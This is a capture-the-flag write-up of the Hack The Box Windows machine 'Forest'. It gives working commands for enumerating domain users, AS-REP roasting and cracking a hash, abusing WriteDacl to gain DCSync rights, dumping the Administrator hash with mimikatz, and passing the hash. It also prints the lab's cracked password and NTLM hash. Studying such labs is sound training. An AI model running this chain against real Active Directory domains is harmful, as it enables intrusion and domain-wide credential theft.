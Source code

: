 ```yaml
---
date: 2025-01-30
categories: [Windows, Easy, AD]
---
```


![Forest](https://labs.hackthebox.com/storage/avatars/7dedecb452597150647e73c2dd6c24c7.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egre55](https://app.hackthebox.com/users/1190) & [mrb3n](https://app.hackthebox.com/users/2984)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open --min-rate 5000 -Pn -sS 10.10.10.161 -oG scan
/opt/extractports scan
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706 -Pn -sCV 10.10.10.161 -oN ports
```

![image](https://github.com/user-attachments/assets/4bb0374a-1270-4b84-8573-f122b6044955)

-  I found the domain `htb.local` and `forest.htb.local`, I added it to the file in the `hosts` file

- I enumerate the system with enum4linux looking for system users. I get a list of users that I validate kerbrute to keep only the valid ones of the domain.

```python
enum4linux -a 10.10.10.161

/opt/kerbrute userenum  --dc 10.10.10.161 -d htb.local /home/rufo/users
```

![image](https://github.com/user-attachments/assets/5d7cda57-d629-419b-9a65-900f21b273df)

- When checking if any user has SPN set to request a TGS. 

```python
impacket-GetNPUsers htb.local/ -no-pass  -usersfile /home/rufo/valid_users 
```

- I find a user and manage to crack his hash and get the password in clear text.

```python
hashcat -m 18200 hash_svc-alfresco /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/40afa349-28ca-49a7-96b3-80cfe3e70b15)

- With these credentials I get access to the system through winrm and read the first flag

```python
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

![image](https://github.com/user-attachments/assets/8e491210-2f79-4dcd-9985-b4b17fe8b251)

- At this point I collect information from the system in order to use bloodhound and look for possible routes to escalate my privileges.

```python
neo4j console
rdate -n 10.10.10.161
bloodhound-python -c all -u svc-alfresco -p s3rvice -ns 10.10.10.161 -d htb.local
bloodhound &>/dev/null &
```

![image](https://github.com/user-attachments/assets/c6b31df1-7a48-455a-b2d0-56660c7b7a90)

- I find a way in which I can give myself permissions to perform a DcSync attack. For it first I have to add me to the group “EXCHANGE WINDOWS PERMISSIONS” and at that point I can give me the permissions thanks to have WriteDacl on the domain.

- In order to exploit WriteDacl I make use of this [resource](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)

```python
Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members "svc-alfresco"
./bloodyAD.py --host "10.10.10.161" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add dcsync "svc-alfresco"
.\mimikatz.exe privilege::debug "lsadump::dcsync /domain:htb.local /user:Administrator" exit
```

- Another way in which we could give DcSync permissions to the user would be to use powerview 
```python
$pass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $pass)
Add-DomainObjectAcl -PrincipalIdentity svc-alfresco -Credential $cred -Rights DCSync
```

- When I get the Administrator user hash I manage to PtH and connect to the system to be able to read the second flag.

```python
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

![image](https://github.com/user-attachments/assets/fea25c2d-65e6-4fa9-9753-8467d7ea1063)
